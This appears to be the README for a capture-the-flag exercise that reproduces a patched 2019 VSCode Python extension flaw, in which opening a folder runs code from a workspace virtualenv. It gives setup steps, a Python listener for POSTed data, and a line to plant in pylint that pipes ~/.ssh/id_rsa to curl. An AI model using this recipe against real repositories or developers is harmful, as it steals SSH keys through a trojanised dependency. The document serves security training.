 # Developer Tool Exploit CTF

In late 2019, an exploit was found within the VSCode Python extension. When the editor opened a folder containing a Python virtualenv, that editor could, with the right files in the folder, being executing code contained in the virtualenv without any notification or confirmation from the user. Code execution from simply opening a folder is unexpected and could have led to mass compromises of developer computers. This exploit has been patched out in early 2020.

## Steps for reproducing the exploit

This has been tested outside of a container, but not inside.

### VSCode Setup:

#### Disable auto updates for extensions

This key must be added to the settings file user data directory we use in the container (available at `$USER_DATA_DIR/User/settings.json`)
```json
{
    ...
    "extensions.autoUpdate": false
}
```

#### Install Extension
```sh
    wget https://github.com/microsoft/vscode-python/releases/download/2019.10.44104/ms-python-release.vsix
    code --install-extension ./ms-python-release.vsix
```
Note: other extension versions will work. The exploit went fully public in March of 2020, before a fix was applied. I don't know when this bug was introduced. But the bug was first found in early October 2019. So any extension release between those dates should work.

### Exploit Setup (these are the steps the player must take)

The following steps will be done by the player in a folder that we will mount into the container.

#### Create Virtualenv

```sh
    python -m venv myvenv # other names than "myvenv" would work, so long as the player is consistent
```

#### Create `.vscode/settings.json`
```json
{
    "python.pythonPath": "myvenv/bin/python"
}
```

#### Install pylint
`pylint` should be ran when the repository is opened, assuming the victim has not changed the default linting setting. Because we have control over the victims config, we will keep it enabled.

```sh
    myvenv/bin/pip install pylint
```

#### Add a main python file

While users will likely open at least one of your source files eventually, the test environment is configured to open `main.py` in the root of the repository.

```sh
    touch main.py
```

#### Prepare a way to extract the flag

For example, you may want to create a simple web server that will echo any posted data. One example might be:

```python
import http.server
import socketserver

listen_port = 8000

class Handler(http.server.BaseHTTPRequestHandler):
    def do_POST(self):
        body_len = int(self.headers['Content-Length'])
        print(str(self.rfile.read(body_len)))

with socketserver.TCPServer(("", listen_port), Handler) as srv:
    print("listening for POST'ed data on port", listen_port)
    srv.serve_forever()
```

#### Put the malicious code in one of `pylint`'s sources
For example, you could add to `__main__.py`:

```python
    import os
    os.system("cat ~/.ssh/id_rsa | curl http://localhost:8000 -d $(</dev/stdin)")
```
This would be an example for if you setup a web server on your local machine to read ssh keys from the request body.

#### Make sure the python symlink is pointing to the correct path

NOTE: This path may be different in the container than it is on your host! Attacks need to be targeted to specific distros. This CTF currently targets Ubuntu 21.04, which has python available at `/usr/bin/python3`.

#### Run the exploit

<!-- Note: we need to change the tag "capstone-vscode" to whatever path we use on docker hub when we push it -->
```sh
    docker run --rm -v /local/path/to/my/exploit:/repo --net=host capstone-vscode
```

